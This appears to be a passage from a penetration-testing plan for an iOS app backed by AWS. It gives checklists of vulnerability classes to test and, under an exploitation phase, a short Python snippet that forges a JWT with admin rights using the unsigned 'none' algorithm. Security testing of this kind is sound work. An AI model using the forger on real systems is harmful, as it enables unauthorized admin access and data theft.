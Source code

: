 ### 4.2 Input Validation
- [ ] SQL injection in GraphQL
- [ ] XSS in SwiftUI text inputs
- [ ] Command injection
- [ ] Path traversal
- [ ] XXE injection

### 4.3 Business Logic
- [ ] Race conditions
- [ ] IDOR vulnerabilities
- [ ] Price manipulation
- [ ] Workflow bypass

### 4.4 iOS Specific
- [ ] URL scheme hijacking
- [ ] Pasteboard leakage
- [ ] Screenshot caching
- [ ] Background snapshot
- [ ] Biometric bypass

### 4.5 AWS Specific
- [ ] S3 bucket enumeration
- [ ] Cognito user enumeration
- [ ] Lambda function exposure
- [ ] DynamoDB injection
- [ ] IAM privilege escalation

---

## Phase 5: Exploitation (Day 4-5)

### 5.1 Exploit Development
```python
# Example: JWT token forger
import jwt
import json

# Decode without verification
token = "eyJ..."
decoded = jwt.decode(token, options={"verify_signature": False})

# Modify claims
decoded['role'] = 'admin'
decoded['exp'] = 9999999999

# Re-sign with 'none' algorithm
forged = jwt.encode(decoded, '', algorithm='none')
```

### 5.2 Chaining Vulnerabilities
Document attack chains:
1. SSL pinning bypass → API access
2. Token manipulation → Privilege escalation
3. IDOR → Data exfiltration

---